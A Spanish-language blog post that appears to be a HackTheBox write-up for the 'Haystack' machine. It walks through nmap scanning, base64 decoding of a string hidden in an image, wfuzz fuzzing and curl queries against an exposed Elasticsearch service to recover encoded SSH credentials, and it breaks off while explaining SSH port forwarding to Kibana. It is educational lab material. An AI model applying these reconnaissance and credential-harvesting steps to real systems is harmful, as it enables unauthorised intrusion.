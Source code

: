 ```yaml
---
layout: post
title: "Haystack"
subtitle: 'HackTheBox - Easy Machine - Linux'
date: 2019-11-08 12:00:00
author: "TheusZero"
header-img: "images/post/haystack.png"
tags:
  - Linux
  - Machine
  - Explotations
  - Upgrade
  - Shell
  - Root
  - User
---
```


### Haystack - La maquina "Chilena"

Como todos sabemos, a dia de hoy Chile pasa por momentos profundos de cambios, que vienen por parte del pueblo que ha despertado y reconocido los maltratos por parte del gobierno.

Haystack es una maquina hecha por un chileno, es una maquina que tiene mucho de CTF durante el 'User'. De Haystack Logré llegar hasta el root, me enseño mucho ya que aunque es de nivel "Facil", yo diria que va mucho mas allá.
Es una maquina larga y divertida, tiene guiños y curiosidades sobre historia chilena y latinoamericana, además la maquina está en "Español", por lo que a gente o usuarios de no habla-hispana se les complico mucho.

### Enumeracion

En la enumeracion basica hecha por nuestros amigos obtenemos que:

```vim
TheusZero@parrot:~# nmap 10.10.10.115 -sV -sC -oA haystack.nmap
Starting Nmap 7.70 ( https://nmap.org ) at 2019-10-04 19:20 EDT
Nmap scan report for 10.10.10.115
Host is up (0.24s latency).
Not shown: 997 filtered ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey: 
|   2048 2a:8d:e2:92:8b:14:b6:3f:e4:2f:3a:47:43:23:8b:2b (RSA)
|   256 e7:5a:3a:97:8e:8e:72:87:69:a3:0d:d1:00:bc:1f:09 (ECDSA)
|_  256 01:d2:59:b2:66:0a:97:49:20:5f:1c:84:eb:81:ed:95 (ED25519)
80/tcp   open  http    nginx 1.12.2
|_http-server-header: nginx/1.12.2
|_http-title: Site doesn't have a title (text/html).
9200/tcp open  http    nginx 1.12.2
|_http-server-header: nginx/1.12.2
|_http-title: 502 Bad Gateway

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 66.39 seconds
```

Podemos ver que todo esta "Normal" exceptuando ese puerto 9200 al que llegaremos mas tarde...

Al revisar el puerto 80 http, podemos encontrar lo siguiente:

>>needle.jpg
![](/TheusZero/images/needle.jpg)

¿Raro o no?, si le hacemos un strings a la imagen podemos encontrar: 

En el strings obtenemos un base64 que podemos decodificar:

```vim
TheusZero@parrot:~/Desktop# strings -10 needle.jpg 
paint.net 4.1.1
%&'()*456789:CDEFGHIJSTUVWXYZcdefghijstuvwxyz
&'()*56789:CDEFGHIJSTUVWXYZcdefghijstuvwxyz
>S)T;M7\{Y
WEL/;wg-J3
T.-UWuvFG,
Euw!i$goRk
5)5=FI$b[=+
*Oo!;.o|?>
bGEgYWd1amEgZW4gZWwgcGFqYXIgZXMgImNsYXZlIg==
```

El decode nos mostrará algo MUY IMPORTANTE para despues...
```vim
TheusZero@parrot:~/Desktop# echo bGEgYWd1amEgZW4gZWwgcGFqYXIgZXMgImNsYXZlIg== |base64 --decode
la aguja en el pajar es "clave"
```
Tal cual. En español para l@s cabr@s.

### Puerto 9200 - El amigo de cURL

Nos toca el puerto 9200 ahora, al verlo me recordó otra maquina de HackTheBox llamada "Luke" con la que jugabas con el puerto 3000,
tenemos que jugar con "cURL" una herramienta muy muy buena para hacer POST request y GET por lo que mandaremos un cURL basico y simple para ver que pasa.

```vim
TheusZero@parrot:~/Desktop# curl http://10.10.10.115:9200
{
  "name" : "iQEYHgS",
  "cluster_name" : "elasticsearch",
  "cluster_uuid" : "pjrX7V_gSFmJY-DxP4tCQg",
  "version" : {
    "number" : "6.4.2",
    "build_flavor" : "default",
    "build_type" : "rpm",
    "build_hash" : "04711c2",
    "build_date" : "2018-09-26T13:34:09.098244Z",
    "build_snapshot" : false,
    "lucene_version" : "7.4.0",
    "minimum_wire_compatibility_version" : "5.6.0",
    "minimum_index_compatibility_version" : "5.0.0"
  },
  "tagline" : "You Know, for Search"
}
```

>>  "tagline" : "You Know, for Search"

Bueno, con esto ya sabemos donde buscar.

Necesitamos encontrar algun directorio, recordemos que aun estamos en la Enumeracion.
Debemos encontrar directorios, por lo cual le mandaremos un Dirb, Go, WFUZZ (Visitar el blog sobre Directorios)

```vim
TheusZero@parrot:~/Desktop# wfuzz -c -z file,/usr/share/wfuzz/wordlist/general/common.txt --hc 404 http://10.10.10.115:9200/FUZZ

********************************************************
* Wfuzz 2.4 - The Web Fuzzer                           *
********************************************************

Target: http://10.10.10.115:9200/FUZZ
Total requests: 949

===================================================================
ID           Response   Lines    Word     Chars       Payload                             
===================================================================

000000036:   400        0 L      17 W     321 Ch      "_admin"                            
000000042:   200        0 L      1 W      245 Ch      "administrator"                     
000000094:   200        0 L      1 W      1010 Ch     "bank"                              
000000589:   400        0 L      17 W     321 Ch      "_pages"                            

Total time: 20.91859
Processed Requests: 949
Filtered Requests: 945
Requests/sec.: 45.36634
```
Ok, encontramos un par de directorios, pero encontramos un par que tiene una "_" por lo que buscaremos mas de esa forma:
```vim
TheusZero@parrot:~/Desktop# wfuzz -c -z file,/usr/share/wfuzz/wordlist/general/common.txt --hc 404,400 http://10.10.10.115:9200/_FUZZ

********************************************************
* Wfuzz 2.4 - The Web Fuzzer                           *
********************************************************

Target: http://10.10.10.115:9200/_FUZZ
Total requests: 949

===================================================================
ID           Response   Lines    Word     Chars       Payload                                       
===================================================================

000000052:   200        0 L      1 W      103 Ch      "alias"                                       
000000053:   200        0 L      1 W      103 Ch      "aliases"                                     
000000054:   200        0 L      1 W      4470 Ch     "all"                                         
000000129:   405        0 L      12 W     102 Ch      "bulk"                                        
000000145:   200        28 L     28 W     493 Ch      "cat"                                         
000000213:   200        0 L      1 W      76 Ch       "count"                                       
000000576:   405        0 L      11 W     97 Ch       "open"                                        
000000715:   200        0 L      17 W     6456 Ch     "search"                                      
000000743:   200        0 L      1 W      854 Ch      "settings"                                    
000000790:   200        0 L      1 W      20986 Ch    "stats"                                       
000000823:   200        0 L      1 W      40327 Ch    "template"                                    

Total time: 23.53877
Processed Requests: 949
Filtered Requests: 938
Requests/sec.: 40.31644
```
Encontramos un parametro llamado "search", por lo que lo usaremos como tal para buscar dentro del 9200

```vim
TheusZero@parrot:~/Desktop# curl -X GET "http://10.10.10.115:9200/_search?q=clave"
{"took":5,"timed_out":false,"_shards":{"total":16,"successful":16,"skipped":0,"failed":0},"hits":{"total":2,"max_score":5.9335938,"hits":[{"_index":"quotes","_type":"quote","_id":"45","_score":5.9335938,"_source":{"quote":"Tengo que guardar la clave para la maquina: dXNlcjogc2VjdXJpdHkg "}},{"_index":"quotes","_type":"quote","_id":"111","_score":5.3459888,"_source":{"quote":"Esta clave no se puede perder, la guardo aca: cGFzczogc3BhbmlzaC5pcy5rZXk="}}]}}
```

>>"quote":"Tengo que guardar la clave para la maquina: dXNlcjogc2VjdXJpdHkg "
>>"quote":"Esta clave no se puede perder, la guardo aca: cGFzczogc3BhbmlzaC5pcy5rZXk="

son dos base64 que nos daran las creds para entrar por ssh a la maquina, obteniendo asi el user.txt en el home.

### Security

```vim
TheusZero@parrot:~# ssh security@10.10.10.115
security@10.10.10.115's password: 
Last login: Wed Feb  6 20:53:59 2019 from 192.168.2.154
[security@haystack ~]$
```

Me quede pegado en esta parte por muxo tiempo, una vez entramos con las creds ya convertidas a base64, somos el usuario security.
Basta con tirar un LinEnum y ver que se esta ejecutando el proceso de Kibana en el host principal, en el puerto 5601, por lo que tendremos que llegar a el de alguna forma.

### SHELL

sabemos que se encuentra un usuario intermedio, por lo que escalaremos privilegios hasta llegar a el, Kibana nos puede ayudar para eso (o al menos eso pensé uwu) por lo que usaremos una tecnica llamada:

>> "Port Forwarding"

con esto lograremos abrir puertos en nuestra maquina y ejecutar el proceso Kibana.

```vim
ssh -L 5602:127.0.0.1:5601
```
explicandolo de manera simple (ya que pienso hacer un post sobre esta tecnica mas tarde uwu), ssh -L 

